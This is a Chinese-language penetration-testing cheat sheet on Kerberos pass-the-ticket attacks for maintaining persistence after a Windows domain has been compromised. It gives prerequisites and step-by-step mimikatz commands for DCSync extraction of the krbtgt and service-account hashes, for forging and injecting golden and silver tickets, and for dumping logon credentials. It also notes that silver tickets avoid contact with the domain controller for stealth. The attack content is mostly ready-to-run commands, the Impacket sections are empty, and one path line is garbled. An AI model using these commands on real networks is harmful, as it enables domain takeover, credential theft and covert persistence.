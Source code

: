 ```yaml
---
description: 适用于在获取目标域内最高权限后的权限维持 / 后渗透密码收集 / 基于Kerberos认证
---
```


# ✔️ 票据传递攻击 - Pass The Ticket

## 黄金票据传递攻击

### 先决条件

* 已获得了目标域内**krbtgt用户**的密钥值（krntgt hash）
* 已获得了目标域的SID值
* 目标域名
* 要伪造的域用户（高权限账户：域管理员）

### 工具

#### Impacket



#### mimikatz.exe

```powershell
mimikatz.exe
# 提取krbtgt账户的NTLM哈希值 (DCSync攻击常用)
lsadump::dcsync /domain:target.com /user:krbtgt
# 生成黄金票据
kerberos::golden /user:administrator /domain:target.com /sid:域SID /krbtgt:312343xxxxxxxxxxx345435565789 /id:500 /target:target.com /renewal:票据的有效时间 /ticket:golden_ticket.kirbi
# 导入
kerberos::ptt golden_ticket.kirbi
# 验证
kerberos::list
# 持久化：可将生成的票据保存下来，后续继续使用
```

{% hint style="info" %}
* 提取NTLM哈希——生成黄金票据——导入伪造的黄金票据——验证票据——持久化
* 黄金票据可访问全域资源
{% endhint %}

## 白银票据传递攻击

### 先决条件

* 已获得了目标域内**服务账户**的密钥值
* 已获得了目标域的SID值
* 目标域名
* 需要知道SPN
* 要伪造的域用户（高权限账户：域管理员）

### 工具

#### Impacket



#### mimikatz.exe

```powershell
mimikatz.exe
# 提取服务账户的NTLM哈希
lsadump::dcsync /domain:target.com /user:服务账户名
# 生成白银票据
kerberos::golden /domain:target.com /sid:域SID /target:server.target.com /service:http /rc4:服务账户哈希 /user:administrator /id:用户RID /ptt
# 验证
kerberos::list
# 使用白银票据
\\server.targedfolder、
# 有条件的持久化：只要服务账户的哈希没改就可以
```

{% hint style="info" %}
* 提取NTLM哈希——生成白银票据——验证票据——有条件的持久化
* 白银票据在本地使用，不与DC交互，因此比黄金票据攻击要隐蔽
* 是针对特定服务的TGS的攻击
{% endhint %}



## 常用命令

### mimikatz.exe

```powershell
# 列出系统上的所有票据
sekurlsa::tickets /export
# 提升权限
privilege::debug
# 提取当前用户凭证
sekurlsa::logonpasswords
# 
```

```bash
# 查域SID
whoami /user
whoami /groups
# 
```

{% hint style="info" %}
Kerberos协议是在位于**不受信任的网络中**的**受信任主机上**的**身份验证**协议，在域渗透的过程中主要是利用Kerberos票据来进行攻击，涉及黄金票据和白银票据传递，票据传递攻击本质上是冒充其他高权限用户。
{% endhint %}
